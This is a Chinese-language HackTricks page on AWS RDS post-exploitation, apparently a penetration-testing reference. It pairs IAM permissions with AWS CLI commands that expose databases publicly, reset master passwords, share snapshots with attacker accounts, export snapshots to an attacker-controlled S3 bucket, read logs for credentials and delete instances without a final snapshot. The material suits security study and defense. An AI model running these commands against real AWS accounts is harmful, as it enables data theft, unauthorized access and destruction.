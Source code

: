 # AWS - RDS 后期利用

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## RDS

有关更多信息，请查看：

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

如果攻击者拥有足够的权限，他可以通过创建数据库的快照，使 **数据库公开可访问**，然后从快照创建一个公开可访问的数据库。
```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```
### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

拥有这些权限的攻击者可以**创建数据库的快照**并使其**公开可用**。然后，他可以在自己的账户中从该快照创建一个数据库。

如果攻击者**没有 `rds:CreateDBSnapshot`**，他仍然可以使**其他**创建的快照**公开**。

{% code overflow="wrap" %}
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
{% endcode %}

### `rds:DownloadDBLogFilePortion`

拥有 `rds:DownloadDBLogFilePortion` 权限的攻击者可以 **下载 RDS 实例日志文件的部分内容**。如果敏感数据或访问凭证被意外记录，攻击者可能会利用这些信息来提升他们的权限或执行未经授权的操作。

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**潜在影响**：访问敏感信息或使用泄露的凭据进行未经授权的操作。

### `rds:DeleteDBInstance`

拥有这些权限的攻击者可以**对现有的 RDS 实例进行 DoS 攻击**。

{% code overflow="wrap" %}
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**潜在影响**：删除现有的 RDS 实例，并可能导致数据丢失。

### `rds:StartExportTask`

{% hint style="info" %}
TODO: 测试
{% endhint %}

拥有此权限的攻击者可以**将 RDS 实例快照导出到 S3 存储桶**。如果攻击者控制了目标 S3 存储桶，他们可能会访问导出快照中的敏感数据。

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**潜在影响**：访问导出快照中的敏感数据。

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
